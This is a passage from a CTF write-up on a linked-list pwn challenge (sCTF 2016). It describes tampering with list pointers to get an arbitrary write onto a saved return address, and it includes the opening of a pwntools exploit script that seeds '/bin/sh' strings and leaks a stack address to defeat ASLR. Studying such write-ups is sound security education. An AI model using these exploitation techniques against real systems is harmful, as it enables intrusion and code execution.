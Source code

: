 upon edit
- if the element to be edited is not the last in the list, then the list is traversed till the desired item is reached
- the id is used to identify the item to edit.

upon listing
- the list is traversed and an element is read until a null pointer is found, which determines the endo of the list.


# exploitation

Now that we know enough about the application behavior, we can start thinking about the exploit.

The theory behind it is still the same: tamper the list pointers to obtain an arbitrary write what where condition, but for this to work the process is a bit more complicated then what I initially imagined.

We can't append a new item, the only way to overwrite arbitrary memory locations is to use the edit function, also by doing this, we need to make sure that the structure of the list is preserved in terms of order, and that the id of the item we are going to edit is lower then the total amount of threads the application knows to exist.

to accomplish this i decided to proceed as follows:
- added 15 items to the list
- edited the 6th element in the list to modify the pointer from 7th item to 8th item.
- carefully picked an area of memory as a destination that would result in a valid item: the pointer to the next element wasn't null and the id would be 8
- at this point i had an 8th element which would be recognized as valid by the application
- edited it to tamper with the memory location where the saved return address from menu() to main() was stored.

returning from menu() to main() by quitting the application would allow us to control EIP.

Superkojiman jumped in here and built a rop chain, added it to the exploit and captured the flag.

here is our exploit code

```python
#!/usr/bin/python

from pwn import *

context(arch = 'i386', os = 'linux')

#r = remote("localhost", 2323)
r = remote("problems2.2016q1.sctf.io", 1339)

print r.recvuntil("|\n+--------------------+\n")

#add some elements to the list
for a in range(0, 15):
    r.send("1\n")
    print r.recv()
    r.send("AAAA\n")
    print r.recv()
    r.send ("BBBB\n")
    print r.recv()
    r.send("CCCCDDDDE/bin/sh\n")
    print r.recvuntil("|\n+--------------------+\n")

#leak valid stack address
# this returns the pointer that item 0 has for item 1
# can be used as a reference to defeat aslr but also for other things (maybe)
r.send("3\n")
output = r.recv()
print output
```